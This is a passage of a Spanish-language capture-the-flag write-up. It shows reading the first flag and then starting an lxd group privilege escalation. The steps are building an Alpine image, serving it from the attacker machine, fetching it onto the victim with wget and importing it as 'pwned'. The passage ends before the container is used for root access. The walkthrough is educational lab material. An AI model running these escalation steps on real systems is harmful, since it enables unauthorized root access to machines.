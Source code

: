 Logramos Entrar como el usuario sysadmin y podemos leer la flag1

```bash
sysadmin@ubuntu:~$ ls
flag1.txt
```
```bash
sysadmin@ubuntu:~$ cat flag1.txt
o<***CENSORED***>i
```

Para la última flag debemos de abusar del grupo lxd en el que está el usuario sysadmin

```bash
sysadmin@ubuntu:~$ id
```
```bash
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
122(docker)
```
Para esto nos clonamos el siguiente repositorio en nuestra máquina, que nos permitirá escalar privilegios

```bash
~$> git clone https://github.com/saghul/lxd-alpine-builder.git
```
```bash
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 35, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 35 (delta 2), reused 2 (delta 0), pack-reused 27
Receiving objects: 100% (35/35), 21.69 KiB | 264.00 KiB/s, done.
Resolving deltas: 100% (8/8), done.
```
```bash
~$> cd lxd-alpine-builder
~$> sudo ./build-alpine
```
Iniciamos un servidor http con python3

```bash
~$> python3 -m http.server 80
```
Y esto en la máquina víctima:
```bash
sysadmin@ubuntu:~$ wget http://10.9.242.217/alpine-v3.14-x86_64-20210824_1357.tar.gz
```
```bash
sysadmin@ubuntu:~$ lxc image import ./alpine-v3.14-x86_64-20210824_1357.tar.gz --alias pwned
Image imported with fingerprint: 1b618f2f54435ff6cd80a76e25d0f5070d4ebf16d7f730a0ea850164bd99655f
```
Listamos las imagenes existentes

```bash
sysadmin@ubuntu:~$ lxc image list
```
```bash
+-------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+-------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| pwned | 1b618f2f5443 | no     | alpine v3.14 (20210824_13:57) | x86_64 | 3.11MB | Aug 24, 2021 at 7:05pm (UTC) |
+-------+--------------+--------+-------------------------------+--------+--------+------------------------------+
```
Ahí vemos la que acabamos de crear (pwned)